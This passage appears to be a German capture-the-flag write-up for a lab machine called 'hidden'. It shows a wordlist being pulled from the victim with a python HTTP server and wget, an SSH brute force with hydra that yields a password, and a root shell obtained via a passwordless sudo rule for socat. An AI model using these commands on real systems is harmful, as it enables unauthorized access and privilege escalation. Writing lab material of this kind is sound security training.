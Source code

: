 ### toreto zu atenea (SSH Brute-Force)

1.  **Enumeration als `toreto`:**
    *   Im Verzeichnis `/home/atenea/.hidden/` wurde die Datei `atenea.txt` gefunden.
    *   Die Datei wurde mittels eines Python HTTP-Servers (`python3 -m http.server 9999`) von `toreto` zum Angreifer-System transferiert (`wget http://192.168.2.131:9999/atenea.txt`).

2.  **SSH Brute-Force gegen `atenea`:**
    *   Die Datei `atenea.txt` wurde als Wortliste für einen SSH-Brute-Force-Angriff verwendet.
    *   `hydra -t64 ssh://hidden.hmv -l atenea -P atenea.txt` fand das Passwort: `sys8423hmv`.

3.  **Login als `atenea`:**
    *   `ssh atenea@hidden.hmv` mit dem Passwort `sys8423hmv` war erfolgreich.

### atenea zu root (Sudo/Socat)

1.  **Sudo-Rechte-Prüfung für `atenea`:**
    *   `atenea@hidden:~$ sudo -l` zeigte:
        ```
        User atenea may run the following commands on hidden:
            (root) NOPASSWD: /usr/bin/socat
        ```
2.  **Ausnutzung:**
    *   Der Befehl (basierend auf GTFOBins) wurde ausgeführt:
        ```bash
        sudo -u root socat stdin exec:/bin/sh
        ```
    *   Dies startete eine interaktive Shell als `root`.

---

## Proof of Concept (Root)

**Kurzbeschreibung:** Die finale Privilegieneskalation von `atenea` zu `root` erfolgte durch eine unsichere `sudo`-Regel, die es `atenea` erlaubte, `/usr/bin/socat` als `root` ohne Passwort auszuführen. Durch den Befehl `sudo -u root socat stdin exec:/bin/sh` konnte eine interaktive Root-Shell gestartet werden.

**Schritte (als `atenea`):**
1.  Führe den folgenden Befehl aus:
    ```bash
    sudo -u root socat stdin exec:/bin/sh
    ```
2.  Überprüfe die Identität:
    ```bash
    id
    ```
**Ergebnis:** `uid=0(root) gid=0(root) groups=0(root)`. Eine Root-Shell wurde erlangt.

---

## Flags
